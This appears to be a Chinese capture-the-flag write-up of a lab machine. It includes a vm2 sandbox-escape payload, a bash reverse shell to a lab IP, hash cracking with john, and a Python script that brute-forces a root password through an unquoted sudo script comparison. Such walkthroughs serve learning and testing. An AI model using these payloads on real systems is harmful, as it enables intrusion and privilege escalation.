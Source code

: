 # 信息收集

<img src="images/14.png" alt="image-20231113141950242" style="zoom:50%;" />

先对拿到的IP进行一波IP，发现开了ssh和80，3000，8080，经过进一步探测后，发现了web端口

![image-20231113142103087](images/1.png)

8080只有一个hello world，

80端口和3000端口是一样的，不过80端口会跳转了`http://codify.htb/`需要配置一个hosts

![image-20231113142637483](images/2.png)

# 攻击过程

## GetShell

这是一个JS代码调试器，可以在沙箱环境下运输JS代码，不过之前vm2沙箱存在远程代码执行

```
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('id');
}
`

console.log(vm.run(code));
```

![image-20231113143130593](images/3.png)

执行命令成功

反弹shell

```
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('bash -c "bash -i >& /dev/tcp/10.10.16.20/2333 0>&1"');
}
`

console.log(vm.run(code));
```

![image-20231113161953949](images/4.png)

## hash爆破

在/var/www/contack看到了tickets.db，里面藏有了用户的hash

![image-20231113171441335](images/5.png)

并且这个用户的hash在/home命令下，尝试爆破这个hash，首先先把这个hash提取出来

![image-20231113172152161](images/6.png)

可以用在线的hash识别器（https://hashes.com/en/tools/hash_identifier）来识别hash类型，也可以使用hash-identifier：https://gitlab.com/kalilinux/packages/hash-identifier/-/tree/kali/master

hash-identifie是一个非常容易使用的 Python 工具，当你输入一个哈希值时，它会告诉你这个哈希值最有可能是什么哈希类型，将一系列哈希类型按可能性进行降序排列。

接下来用kali的john来进行爆破，可以用带/usr/share/wordlists下的rockyou字典，这个字典比较强大

`john --wordlist=/usr/share/wordlists/rockyou.txt aaa.txt`

![image-20231113172632465](images/7.png)

爆破出了joshua的密码spongebob1，爆破后的内容存储在`~/.john/john.pot`

![image-20231113172805699](images/8.png)

因为ssh端口是开放的，尝试登陆joshua用户

![image-20231113172726803](images/9.png)

## 提权

![image-20231113173842169](images/10.png)

sudo具有具有suid权限，并且用sudo -l看到，joshua可以执行需要root密码的mysql-backup.sh脚本

![image-20231113174041347](images/11.png)

在这个脚本中，会对输入的密码进行判断，如果等于root密码则可以往后执行，否则会退出

因为这里的bash变量没有用引号就不是绝对的字符串，可以用到模式匹配的方式，也就是说通配符

于是可以构造脚本

```python
import string
import subprocess
all = list(string.ascii_letters + string.digits)
password = ""
found = False

while not found:
    for character in all:
        command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"
        output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout

        if "Password confirmed!" in output:
            password += character
            print(password)
            break
    else:
        found = True
```

利用通配符构造输入的字符串，通过返回判断，这样就可以爆破出root密码

![image-20231113174448258](images/12.png)

最后拿到root密码

![image-20231113174717742](images/13.png)

登陆后拿到最后的root.txt



这次的打靶没有内网环境，但是漏洞给的还是很新，之前看到的vm2沙箱的远程代码执行，hash爆破的话第一次接触，最后提取之前只接触过可以sudo执行git进入命令行，没想到可以这样给一个脚本去爆破到root密码，还是涨见识了



参考链接：

https://www.cnblogs.com/Hekeats-L/archive/2022/09/30/16745318.html

https://www.cnblogs.com/jtmqd/p/17815669.html
